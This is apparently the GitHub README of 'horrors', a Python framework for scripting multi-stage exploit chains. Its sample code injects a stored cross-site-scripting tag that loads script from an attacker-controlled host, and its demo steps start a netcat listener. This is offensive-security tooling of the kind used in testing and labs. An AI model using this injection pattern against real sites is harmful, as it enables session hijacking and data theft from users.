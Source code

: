 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This little asyncio-based framework was created in order to simplify exploit chain development for vulnerable applications. The `scenarios.Scenario` methods are executed sequentially. All you have to do is:

```python
class Vulnerable(scenarios.Scenario):

    async def stage1(self):
        requests.post(
            'http://{rhost}:{rport}/stored/'.format(**self.context),
            data='field=<script src=http://{lhost}:{lport}/xss.js></script>'.format(**self.context),
            headers={'Content-Type': 'application/x-www-form-urlencoded'}
        )

    async def stage2(self):
        await events.Event.wait('xss')
        res = requests.get(
            'http://{rhost}:{rport}/userid/{username}'.format(**self.context)
        )

httpd = services.HTTPStatic({
    '/': 'Home',
    '/xss.js': 'var payload = "something_is_wrong_here";',
})
httpd.send('xss', when=triggers.PathContains('xss.js'))

story = Vulnerable(
    rhost='127.0.0.1',
    rport=8008,
    lhost='127.0.0.1',
    lport=8888,
    username='evil',
)
story.spawn(httpd)
story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

A full example is included in the `horrors/example` directory. Try it out by running:

    $ nc -lv4 4444
    $ horrors/example/victim.py
    $ horrors/example/attacker.py

### Demo

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

## Changelog

* **2021/07/30** Initial release (v0.1)
